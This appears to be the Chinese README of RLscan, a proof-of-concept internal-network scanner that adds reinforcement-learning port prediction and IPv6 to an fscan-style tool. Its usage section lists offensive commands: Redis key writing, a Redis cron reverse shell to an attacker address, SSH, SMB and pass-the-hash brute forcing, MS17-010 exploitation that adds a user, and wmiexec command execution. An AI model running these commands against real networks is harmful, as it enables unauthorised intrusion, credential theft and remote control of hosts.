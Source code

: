 # RLscan

该项目仅用于概念验证。

[English](README_EN.md)

#  AI

加入了自适应学习和强化学习，支持IPv6。

+ IPv6 扫描

在IPv6扫描之前确定自己的网络支持IPv6

多个目标
```
RLscan.exe -hf "ip.txt"
```
单个目标
```
RLscan.exe -h "2408:8720:806:300:70::88"
```

##  🤖 自适应学习

在3秒内完成对整机65536个端口的扫描。

+ 异步扫描计算有效利用网络宽带和CPU资源;
+ 流量控制算法+异步计算svn == 高扫描速率 + 低资源占用;
+ 通过计算ulimit (进程资源使用限制) 和RTT (往返时延) 自适应调整请求接口数和数据包发送速率;
+ 他会合理的拉满宽带和内存，但不会引发硬件问题;

```
RLscan.exe -h "127.0.0.1" -AL 1
```

##  🤖 强化学习

> 所有实现均局限在10000之前，限制性能消耗；

### 🐳 Q-learning（Demo）

在全端口扫描时，进一步提高准确率和尽量减少需要扫描的端口。

+ 纯机器学习，实际效果基于网络性能;
+ Q-learning算法纯 GO 实现;
+ 样本10000的情况下，端口覆盖率87%;

```
RLscan.exe -h "127.0.0.1" -RL 1
```

![效果图](https://gallery-1304405887.cos.ap-nanjing.myqcloud.com/markdown%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20231225123928.png)

###  DQN

待实现。

###  PPO

+ 对于基于策略的实现，通过端口之间打开的关联性矩阵进行抉择最优策略；
+ 关联性计算具体参考[贝叶斯公式](https://baike.baidu.com/item/%E8%B4%9D%E5%8F%B6%E6%96%AF%E5%85%AC%E5%BC%8F/9683982)

待实现。

# 使用说明

<details> <summary>使用说明</summary>

简单用法
``` 
RLscan.exe -h 192.168.1.1/24  (默认使用全部模块)
RLscan.exe -h 192.168.1.1/16  (B段扫描)
```

其他用法
```
RLscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)
RLscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)
RLscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
RLscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
RLscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
RLscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
RLscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径) 
RLscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
RLscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
RLscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
RLscan.exe -hf ip.txt  (以文件导入)
RLscan.exe -u http://baidu.com -proxy 8080 (扫描单个url,并设置http代理 http://127.0.0.1:8080)
RLscan.exe -h 192.168.1.1/24 -nobr -nopoc (不进行爆破,不扫Web poc,以减少流量)
RLscan.exe -h 192.168.1.1/24 -pa 3389 (在原基础上,加入3389->rdp扫描)
RLscan.exe -h 192.168.1.1/24 -socks5 127.0.0.1:1080 (只支持简单tcp功能的代理,部分功能的库不支持设置代理)
RLscan.exe -h 192.168.1.1/24 -m ms17010 -sc add (内置添加用户等功能,只适用于备选工具,更推荐其他ms17010的专项利用工具)
RLscan.exe -h 192.168.1.1/24 -m smb2 -user admin -hash xxxxx (pth hash碰撞,xxxx:ntlmhash,如32ed87bdb5fdc5e9cba88547376818d4)
RLscan.exe -h 192.168.1.1/24 -m wmiexec -user admin -pwd password -c xxxxx (wmiexec无回显命令执行)
```
编译命令
```
go build -ldflags="-s -w " -trimpath main.go
upx -9 RLscan.exe (可选,压缩体积)
```
arch用户安装  
`yay -S RLscan-git  或者 paru -S RLscan-git`

完整参数
```
  -c string
        ssh命令执行
  -cookie string
        设置cookie
  -debug int
        多久没响应,就打印当前进度(default 60)
  -domain string
        smb爆破模块时,设置域名
  -h string
        目标ip: 192.168.11.11 | 192.168.11.11-255 | 192.168.11.11,192.168.11.12
  -hf string
        读取文件中的目标
  -hn string
        扫描时,要跳过的ip: -hn 192.168.1.1/24
  -m string
        设置扫描模式: -m ssh (default "all")
  -no
        扫描结果不保存到文件中
  -nobr
        跳过sql、ftp、ssh等的密码爆破
  -nopoc
        跳过web poc扫描
  -np
        跳过存活探测
  -num int
        web poc 发包速率  (default 20)
  -o string
        扫描结果保存到哪 (default "result.txt")
  -p string
        设置扫描的端口: 22 | 1-65535 | 22,80,3306 (default "21,22,80,81,135,139,443,445,1433,3306,5432,6379,7001,8000,8080,8089,9000,9200,11211,27017")
  -pa string
        新增需要扫描的端口,-pa 3389 (会在原有端口列表基础上,新增该端口)
  -path string
        fcgi、smb romote file path
  -ping
        使用ping代替icmp进行存活探测
  -pn string
        扫描时要跳过的端口,as: -pn 445
  -pocname string
        指定web poc的模糊名字, -pocname weblogic
  -proxy string
        设置代理, -proxy http://127.0.0.1:8080
  -user string
        指定爆破时的用户名
  -userf string
        指定爆破时的用户名文件
  -pwd string
        指定爆破时的密码
  -pwdf string
        指定爆破时的密码文件
  -rf string
        指定redis写公钥用模块的文件 (as: -rf id_rsa.pub)
  -rs string
        redis计划任务反弹shell的ip端口 (as: -rs 192.168.1.1:6666)
  -silent
        静默扫描,适合cs扫描时不回显
  -sshkey string
        ssh连接时,指定ssh私钥
  -t int
        扫描线程 (default 600)
  -time int
        端口扫描超时时间 (default 3)
  -u string
        指定Url扫描
  -uf string
        指定Url文件扫描
  -wt int
        web访问超时时间 (default 5)
  -pocpath string
        指定poc路径
  -usera string
        在原有用户字典基础上,新增新用户
  -pwda string
        在原有密码字典基础上,增加新密码
  -socks5
        指定socks5代理 (as: -socks5  socks5://127.0.0.1:1080)
  -sc 
        指定ms17010利用模块shellcode,内置添加用户等功能 (as: -sc add)
```

</details>

# 参考链接

[RustScan](https://github.com/RustScan/RustScan);

[masscan](https://github.com/robertdavidgraham/masscan)

[Which Doors Are Open: Reinforcement Learning-based Internet-wide Port Scanning](https://scholar.google.com/citations?view_op=view_citation&hl=en&user=dpcpsXQAAAAJ&citation_for_view=dpcpsXQAAAAJ:0EnyYjriUFMC);

[Landing Reinforcement Learning onto Smart Scanning of The Internet of Things](https://ieeexplore.ieee.org/document/9796737);

[近端策略优化算法](https://arxiv.org/abs/1707.06347)

[url-docen]: README
